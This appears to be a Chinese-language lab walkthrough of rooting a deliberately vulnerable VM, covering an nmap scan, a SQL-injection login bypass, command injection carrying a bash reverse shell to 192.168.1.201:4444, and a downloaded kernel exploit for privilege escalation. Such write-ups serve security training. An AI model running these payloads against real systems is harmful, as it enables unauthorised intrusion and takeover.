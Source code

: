 0x01:通过netdiscover进行主机的发现

![图片](https://mmbiz.qpic.cn/mmbiz_png/yt0TxdOI0SygMciaPDO750nth4ZJGv7eZBjq3RGwHDoDmdcIf8ZKVdFiaRCWuCjZT1ia9fNDrOgukqYPTL8MUg69g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

0x02:使用nmap去扫描主机开放的端口和服务

```
┌──(root💀kali)-[/usr/share/doc/proxychains4]
└─# nmap -sS -sV -T5 -A -p- 192.168.1.16
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-16 07:07 EDT
Nmap scan report for 192.168.1.16 (192.168.1.16)
Host is up (0.00051s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            661/udp   status
|_  100024  1            664/tcp   status
443/tcp  open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2021-06-16T15:07:12+00:00; +3h59m25s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
664/tcp  open  status     1 (RPC #100024)
3306/tcp open  mysql      MySQL (unauthorized)
Aggressive OS guesses: QEMU user mode network gateway (95%), Konica Minolta 7035 printer (89%), Bay Networks BayStack 450 switch (software version 3.1.0.22) (89%), GNU Hurd 0.3 (88%), Allied Telesyn AT-9006SX/SC switch (88%), Linux 2.6.18 (CentOS 5, x86_64, SMP) (87%), Tyco 24 Port SNMP Managed Switch (87%), Oracle Virtualbox (87%), Bay Networks BayStack 450 switch (software version 4.2.0.16) (87%), Cabletron ELS100-24TXM Switch or Icom IC-7800 radio transceiver (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

Host script results:
|_clock-skew: 3h59m24s

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.19 ms 10.0.2.2 (10.0.2.2)
2   0.31 ms 192.168.1.16 (192.168.1.16)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.73 seconds
```

0x03:开放的80端口，登陆网页查看可以利用的信息：

![图片](https://mmbiz.qpic.cn/mmbiz_png/yt0TxdOI0SygMciaPDO750nth4ZJGv7eZDe3jPqN3ROIxhBN5aLiaaB8NPtE1IYYQ6JP1QibLLbr7C5rypS2sbBnw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

usrname处，填写sql注入的测试，admin' or '1'='1 是否在入口处进行了过滤。点击登陆后，可以进行sql的注入，出现如下的页面.

![图片](https://mmbiz.qpic.cn/mmbiz_png/yt0TxdOI0SygMciaPDO750nth4ZJGv7eZ29tLbiapKDJnuRX7MQrTZsRAzOXn11bh1ZiaH29OgpWKJ39r3KEZm08g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

输入测试，判断是否有命令注入。

![图片](https://mmbiz.qpic.cn/mmbiz_png/yt0TxdOI0SygMciaPDO750nth4ZJGv7eZtAh6uiblPiaicLMCiaxBsPIqO9rFk2b4IR1CffkGWticPXtF1rOlr6jYsFg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

在kali主机上使用nc监听指定的端口

![图片](https://mmbiz.qpic.cn/mmbiz_png/yt0TxdOI0SygMciaPDO750nth4ZJGv7eZVJiaqIrLe6FaACfNzicDfmB0q2iavy0GOiakdBDfX1KtjkXI2tWE77mXpQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

然后在网页上进行命令注入，打开一个交互的bash，

127.0.0.1 & bash -i >&/dev/tcp/192.168.1.201/4444 0>&1

![图片](https://mmbiz.qpic.cn/mmbiz_png/yt0TxdOI0SygMciaPDO750nth4ZJGv7eZb3IzWiaZcRfuYRics7qEbHe5NUX7JSuxvVAIlRw9q8vgAibbIICXUmnsw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

到这里得到了一个反弹的shell，但是这个用户是apache，不是root用户，下面进行提权方面的操作.

0x04:  

![图片](https://mmbiz.qpic.cn/mmbiz_png/yt0TxdOI0SygMciaPDO750nth4ZJGv7eZsCS8dDJ1Du2AclADmcl7HhI9IHquaSPkgbQAfm6rhb7ftfgtdkfMicg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

使用searchsploit对应操作系统的版本进行搜索。使用url结尾是9545的。

将exp下载到本地。然后在本地使用python创建一个简单的http文件的服务器，

![图片](https://mmbiz.qpic.cn/mmbiz_png/yt0TxdOI0SygMciaPDO750nth4ZJGv7eZSwwp5LztQyibZUy5WIAfalDR6aiaVr6V7wsY3sWgwlFsT0QupaMjpn4Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

在靶机的/tmp下使用wget将exp下载到本地。

![图片](https://mmbiz.qpic.cn/mmbiz_png/yt0TxdOI0SygMciaPDO750nth4ZJGv7eZdiabUAvQfk4sJNnczicPRr8SicfQAKia7OPl4yhgRUib7H0ZGKxVkyYNgng/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

通过exp的文档说明，进行编译，然后执行。进行提权的操作。

![图片](https://mmbiz.qpic.cn/mmbiz_png/yt0TxdOI0SygMciaPDO750nth4ZJGv7eZHjOzB0Qm32GOQnh3Pp4t3w4NjMnKRBcUDM6stDwAqdXZYThBzhqllQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

